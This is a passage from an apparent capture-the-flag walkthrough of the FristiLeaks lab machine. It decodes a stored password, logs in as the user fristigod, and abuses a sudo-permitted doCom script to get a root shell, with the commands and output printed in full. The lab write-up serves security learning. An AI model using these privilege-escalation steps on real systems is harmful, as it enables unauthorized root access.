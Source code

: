 ```python
def b64Decode(y):
    string = base64.b64decode(y)
    return string.decode('utf-8')

txt = b64Decode(decodeRot13(revString(string)))
print(txt)
```

We run the script and get the password for **fristigod** user.

```bash
root@kali:~$ python3 decryptpass.py =RFn0AKnlMHMPIzpyuTI0ITG 
LetThereBeFristi!
```

We switched to the user **fristigod**.

```bash
[admin@localhost ~]$ su - fristigod
su - fristigod
Password: LetThereBeFristi!

-bash-4.1$ id
id
uid=502(fristigod) gid=502(fristigod) groups=502(fristigod)
```

Listing the sudo permissions, we see that **fristigod** can execue the **doCom** script as user fristi.

```bash
-bash-4.1$ sudo -l
sudo -l
[sudo] password for fristigod: LetThereBeFristi!

Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

## Privilege Escalation
### Sudo Permissions

To get root we need to run **doCom** script as user **fristi** and add bash as parameter.

```bash
-bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom bash
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom bash
bash-4.1# id
id
uid=0(root) gid=100(users) groups=100(users),502(fristigod)


bash-4.1# cd /root
cd /root
bash-4.1# ls
ls
fristileaks_secrets.txt
bash-4.1# cat fristileaks_secrets.txt
```